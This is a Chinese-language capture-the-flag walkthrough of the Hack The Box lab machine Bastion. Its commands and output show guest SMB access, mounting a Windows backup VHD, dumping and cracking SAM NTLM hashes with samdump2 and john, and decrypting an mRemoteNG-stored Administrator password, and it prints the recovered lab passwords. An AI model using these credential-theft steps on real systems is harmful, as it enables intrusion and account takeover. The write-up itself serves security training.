

# 信息收集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.134 -oA scans/ports
...
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
...
```

从上面开放的端口，我们可以推导出这是一台开放了 ssh 服务的 windows 机器。接着尝试获取这些开放端口对应的服务：

```
root@kali# nmap -sT -sC -sV -O -p22,135,139,445 10.10.10.134 -oA scans/details
...
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -45m33s, deviation: 1h09m14s, median: -5m35s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-03T07:35:01+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-05-03 01:34:59
|_  start_date: 2019-05-01 23:10:38
...
```

发现的服务为ssh、Msrpc、NetBIOS、SMB, 操作系统为**Windows Server 2016 Standard 14393**, NetBIOS名字是BASTION, 工作组是**WORKGROUP**. 说明这不是一台HTB域成员主机. SMB用户**guest**, 验证登级为**user**.

初步判断大致思路是**匿名SMB登陆获取账号密码**，通过ssh登陆获取更好权限。

# 漏洞利用

## SMB

上面的信息看起来并没有什么特别的。一般的靶机，http 服务往往都是突破口。对于这个靶机，我们应该注意到开放在 445 端口的 smb 服务（**445 端口往往也是 windows 机器的突破口**）。在 kali 上进行 smb 服务的探测，我们可以选择使用 **smbmap, smbclient, enum4linux** 等。我们先来试一下 smbclient：

```
root@kali# smbclient -L 10.10.10.134
...
ADMIN$ Disk Remote Admin
Backups Disk
C$ Disk Default share
IPC$ IPC Remote IPC
...
```

或者使用smbmap：看到nmap扫描出smb有一个用户guest，用smbmap查看分享目录信息

```
root@kali# smbmap -H 10.10.10.134 -u guest
[+] IP: 10.10.10.134:445        Name: 10.10.10.134                                      
[-] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\YCUDSRXTPW, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

> smbmap：smbmap 是一个用于快速扫描 SMB 共享目录的工具。它能够列出目标主机上的 SMB 共享，显示每个共享的权限和目录结构，以及共享中的文件和子目录等信息。smbmap 在渗透测试中经常用于发现目标系统上的敏感文件或配置错误。
> 
> smbclient：smbclient 是一个用于与 SMB/CIFS 服务器进行交互的命令行工具。它可以用于访问和管理远程共享文件夹，执行文件的上传、下载和删除等操作。smbclient 还支持在 SMB 服务器上执行一些常见的文件和目录操作，例如列出文件、创建目录、获取文件属性等。
> 
> enum4linux：enum4linux 是一个用于枚举 SMB 服务器上的信息的工具。它能够快速收集目标系统上的用户、组、共享、会话、系统信息等，并输出为易于分析的格式。enum4linux 可以帮助渗透测试人员或系统管理员了解目标系统的配置、用户信息和共享资源，从而发现潜在的安全问题或优化建议。
> 
> smbclient使用教程：https://cloud.tencent.com/developer/article/2393256
> 
> smbmap使用教程：https://www.shserve.cn/18963.html
> 
> enum4linux使用教程：https://blog.csdn.net/qq_63844103/article/details/127219997

通过 smbclient，我们可以在不使用密码的情况下看到这台靶机的共享。通过 `smbclient //10.10.10.134/sharename `来尝试访问共享路径，我们发现只有 Backups 是可以访问的。



访问共享 Backups: smbclient //10.10.10.134/Backups：

```
root@kali# smbclient //10.10.10.134/Backups -U guest
Enter WORKGROUP\guest's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Dec 22 10:47:38 2021
  ..                                  D        0  Wed Dec 22 10:47:38 2021
  CFZMBSIEGP                          D        0  Wed Dec 22 10:36:04 2021
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  TFHLPWIACJ                          D        0  Wed Dec 22 10:47:38 2021
  WindowsImageBackup                 Dn        0  Fri Feb 22 07:44:02 2019
  YCUDSRXTPW                          D        0  Wed Dec 22 10:44:00 2021
```

里面有note.txt和WindowsImageBackup。

note.txt内容：

```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
系统管理员：请不要在本地传输整个备份文件，VPN到附属办公室的速度太慢。
```

整个文件备份应该是指WindowsImageBackup这个文件夹，Windows 映像备份可能很大，传输速度会很慢（如注释警告的那样）。我不会尝试复制它，而是将此共享挂载到我的文件系统中。

## Mount&&guestmount

```
root@kali# mount -t cifs //10.10.10.134/backups /mnt -o user=,password=
root@kali# ls /mnt/
note.txt  SDT65CB.tmp  WindowsImageBackup
```

> 这个命令是用于在 Kali Linux 上挂载一个远程的** CIFS（Common Internet File System）共享目录**到本地的 /mnt 目录的。让我解释一下：
> 
> - mount：这是 Linux 中用于挂载文件系统的命令。
> 
> - -t cifs：这是指定要挂载的文件系统类型，即 CIFS 文件系统，CIFS 是一种用于在网络上共享文件的协议，通常在 Windows 环境中使用。
> 
> - //10.10.10.134/backups：这是远程 CIFS 共享的路径，其中 10.10.10.134 是远程主机的 IP 地址，/backups 是共享的目录路径。
> 
> - /mnt：这是要挂载到的本地目录，即挂载点。
> 
> - -o user=,password=：这是选项参数，指定了要使用的用户名和密码。在这里，由于用户名和密码没有提供，这意味着需要手动输入用户名和密码来进行身份验证。通常情况下，你需要将这里的 user 和 password 替换为远程共享目录的有效用户名和密码。
> 
> 总的来说，这条命令的作用是将远程的 CIFS 共享目录挂载到本地系统的 /mnt 目录，以便在本地访问和操作远程共享的文件和目录。
> 
> mount命令教程：https://www.linuxcool.com/mount

这样我们就可以直接访问文件了。这个可能是一个备份文件夹。在一些尝试之后，我们发现了一些有趣的文件。

```
root@kali# find /mnt/ -type f
/mnt/note.txt
/mnt/SDT65CB.tmp
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/BackupSpecs.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
/mnt/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
/mnt/WindowsImageBackup/L4mpje-PC/Catalog/BackupGlobalCatalog
/mnt/WindowsImageBackup/L4mpje-PC/Catalog/GlobalCatalog
/mnt/WindowsImageBackup/L4mpje-PC/MediaId
/mnt/WindowsImageBackup/L4mpje-PC/SPPMetadataCache/{cd113385-65ff-4ea2-8ced-5630f6feca8f}
```

有两个vhd文件，VHD文件是Virtual Hard Desk, 这是一种公开可用的图像格式规范，允许将磁盘封装在单个文件中，供操作系统用作虚拟磁盘，使用方式与操作物理磁盘相同。

> VHD是表示虚拟硬盘驱动器（HDD）的文件格式。它可能包含物理HDD上的内容，例如磁盘分区和文件系统，而后者又可以包含文件和文件夹。它通常用作虚拟机的硬盘。

所以这个 VHD 文件里面可能包含了更有用的信息。这里面有 2 个 VHD 文件，一个是 37M，一个是 5.1G。毫无疑问，这个大的可能更有用。但是要把整个 VHD 文件下载下来实在是太困难了，尤其是在这样的网络下。而且靶机的作者也在论坛里面说过你根本不需要将整个 VHD 文件下载下来。那就将 VHD 文件挂载到 kali：`guestmountapt install libguestfs-tools`

> guestmount 是一个命令行工具，它允许你将虚拟机中的硬盘映像（例如 QEMU 的 QCOW2 格式、VMware 的 VMDK 格式等）挂载到本地文件系统中，以便在主机系统上访问其中的文件和目录。这使得你可以在不启动虚拟机的情况下，直接从主机系统中访问和操作虚拟机中的文件，从而方便地进行文件恢复、备份、查看和修改等操作。
> 
> 通过 guestmount 命令，你可以将虚拟机中的硬盘映像挂载到主机系统的指定挂载点上，然后就可以像操作普通文件系统一样来访问其中的文件和目录。这个过程中，虚拟机的硬盘映像会被视为一个文件系统，并且可以通过主机系统的文件管理工具或命令行来进行操作。
> 
> 使用 guestmount 可以方便地执行一些常见的任务，例如从虚拟机中提取文件、检查虚拟机中的配置文件、修改虚拟机中的文件内容等。这对于虚拟化环境中的系统管理、故障排除和数据恢复等工作非常有用。

现在，我将尝试装载两个 VHD 文件中的每一个。第一个失败：

```
root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
guestmount: no operating system was found on this disk

If using guestfish ‘-i’ option, remove this option and instead
use the commands ‘run’ followed by ‘list-filesystems’.
You can then mount filesystems you want by hand using the
‘mount’ or ‘mount-ro’ command.

If using guestmount ‘-i’, remove this option and choose the
filesystem(s) you want to see by manually adding ‘-m’ option(s).
Use ‘virt-filesystems’ to see what filesystems are available.

If using other virt tools, this disk image won’t work
with these tools.  Use the guestfish equivalent commands
(see the virt tool manual page).
```

第二个工作，提供对看起来像 Windows 文件系统根目录的访问：

```
root@kali# guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
root@kali# ls /mnt2/
'$Recycle.Bin'   autoexec.bat   config.sys  'Documents and Settings'   pagefile.sys   PerfLogs   ProgramData  'Program Files'   Recovery  'System Volume Information'   Users   Windows
```

现在进入/mnt2/就相当于进入了靶机的备份的windows系统

```
┌──(root kali)-[~/mnt2]
└─# ll                   
总用量 2096729
drwxrwxrwx 1 root root          0  2月 22  2019 '$Recycle.Bin'
-rwxrwxrwx 1 root root         24  6月 10  2009  autoexec.bat
-rwxrwxrwx 1 root root         10  6月 10  2009  config.sys
lrwxrwxrwx 2 root root         14  7月 14  2009 'Documents and Settings' -> /sysroot/Users
-rwxrwxrwx 1 root root 2147016704  2月 22  2019  pagefile.sys
drwxrwxrwx 1 root root          0  7月 13  2009  PerfLogs
drwxrwxrwx 1 root root       4096  7月 14  2009  ProgramData
drwxrwxrwx 1 root root       4096  4月 11  2011 'Program Files'
drwxrwxrwx 1 root root          0  2月 22  2019  Recovery
drwxrwxrwx 1 root root       4096  2月 22  2019 'System Volume Information'
drwxrwxrwx 1 root root       4096  2月 22  2019  Users
drwxrwxrwx 1 root root      16384  2月 22  2019  Windows
```

## samdump2拿到sam哈希

> samdump2 是一款用于提取 Windows 系统 SAM 数据库中密码哈希的工具。在 Windows 系统中，用户密码哈希以及其他安全相关信息存储在 SAM（Security Account Manager）数据库中。samdump2 可以帮助渗透测试人员在合法授权的情况下，从 Windows 系统中提取密码哈希，用于进一步的密码破解或分析。
> 
> samdump2使用教程：https://blog.csdn.net/lijiajin1228/article/details/104085326

现在我们来到/mnt2/windows/Windows/System32/config目录,我们可以在里面发现一个 SAM 文件。安全帐户管理器（SAM）是 Windows 中用于存储用户密码的数据库文件。尝试访问 SAM 文件，使用samdump2命令打印出该系统内sam保存的哈希信息.

```
┌──(root kali)-[~/…/windows/Windows/System32/config]
└─# samdump2 SYSTEM SAM                                                                                                                                                                                                               127 ⨯
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

截取` L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::`保存到本地`hash.txt`文件

## john破解

```
root@kali# john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
bureaulampje     (L4mpje)
1g 0:00:00:00 DONE (2021-12-23 02:57) 1.176g/s 11053Kp/s 11053Kc/s 11053KC/s buresres..burdy1
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

得到一个登陆凭证：`L4mpje : bureaulampje`

容易我们就破解了这个哈希。而且据我们一开始获取的信息，这台靶机是开放了 ssh 服务的，所以我们尝试使用 L4mpje 作为用户名来登录。很幸运，我们进来了。

```
ssh L4mpje@10.10.10.134
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                                                                                                                           
l4mpje@BASTION C:\Users\L4mpje>whoami                                                                                           
bastion\l4mpje
```

# 提权

在使用 L4mpje 用户登录成功后，我们发现我们的权限很有限。一般提权可以**利用某些软件的漏洞**来完成。所以，探测这个靶机安装了哪些软件很有意义。

```
PS C:\Program Files (x86)> dir
    Directory: C:\Program Files (x86)
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        16-7-2016     15:23                Common Files
d-----        23-2-2019     09:38                Internet Explorer
d-----        16-7-2016     15:23                Microsoft.NET
da----        22-2-2019     14:01                mRemoteNG
d-----        23-2-2019     10:22                Windows Defender
d-----        23-2-2019     09:38                Windows Mail
d-----        23-2-2019     10:22                Windows Media Player
d-----        16-7-2016     15:23                Windows Multimedia Platform
d-----        16-7-2016     15:23                Windows NT
d-----        23-2-2019     10:22                Windows Photo Viewer
d-----        16-7-2016     15:23                Windows Portable Devices
d-----        16-7-2016     15:23                WindowsPowerShell
```

**mRemoteNG**是一种远程连接管理工具，它允许用户保存各种类型连接的密码。用户的 AppData 目录中有一个文件，用于保存该信息：`confCons.xml`

```
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>dir                                                                    
...                                                                       
22-02-2019  15:03    <DIR>          .                                                                                           
22-02-2019  15:03    <DIR>          ..                                                                                          
22-02-2019  15:03             6.316 confCons.xml                                                                                
22-02-2019  15:02             6.194 confCons.xml.20190222-1402277353.backup                                                     
22-02-2019  15:02             6.206 confCons.xml.20190222-1402339071.backup                                                     
22-02-2019  15:02             6.218 confCons.xml.20190222-1402379227.backup                                                     
22-02-2019  15:02             6.231 confCons.xml.20190222-1403070644.backup                                                     
22-02-2019  15:03             6.319 confCons.xml.20190222-1403100488.backup                                                     
22-02-2019  15:03             6.318 confCons.xml.20190222-1403220026.backup                                                     
22-02-2019  15:03             6.315 confCons.xml.20190222-1403261268.backup                                                     
22-02-2019  15:03             6.316 confCons.xml.20190222-1403272831.backup                                                     
22-02-2019  15:03             6.315 confCons.xml.20190222-1403433299.backup                                                     
22-02-2019  15:03             6.316 confCons.xml.20190222-1403486580.backup                                                     
22-02-2019  15:03                51 extApps.xml                                                                                 
22-02-2019  15:03             5.217 mRemoteNG.log                                                                               
22-02-2019  15:03             2.245 pnlLayout.xml                                                                               
22-02-2019  15:01    <DIR>          Themes                                                                                      
...
```

因为靶机安装了ssh，所以我们可以用scp命令把文件从靶机下载到kali

```
┌──(root kali)-[~/htb/Bastion]
└─# scp l4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .                                                                                                                                                      1 ⨯
l4mpje@10.10.10.134's password: 
confCons.xml
```

查看confCons.xml文件，发现`Administrator`的哈希密码：`aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==`

```
┌──(root kali)-[~/htb/Bastion]
└─# cat confCons.xml                                    
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
```

这串密码看上去像bash64，但其实不是。在谷歌上搜索mremoteng decrypt找到这个[mremoteng decrypt脚本](https://github.com/haseebT/mRemoteNG-Decrypt)

解密

```
root@kali#  python3 mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password: thXLHM96BeKL0ER2
```

拿到Administrator的登陆密码：thXLHM96BeKL0ER2

ssh登陆拿到root.txt

# 总结

1. mount可以挂在windows共享目录
2. kali下可将VHD文件通过qemu-nbd转换到/dev/nbd0p1设备，通过mount挂载
3. Windows系统的账号密码凭证保存在C:/Windows/System32/Config目录下的SYSTEM、SAM文件中, 通过samdump2命令可从两个文件中提取出账号的NTLM凭证
4. Windows程序安装后，会在C:/Users//AppData/Remoting/目录中保存数据和创建配置文件
5. mRemoteNG程序保存的远程登陆凭证保存在C:/Users/Username/AppData/Remoting/mRemoteNG/confCon.xml文件中, 密码通过aes加密，默认加密密码为mR3m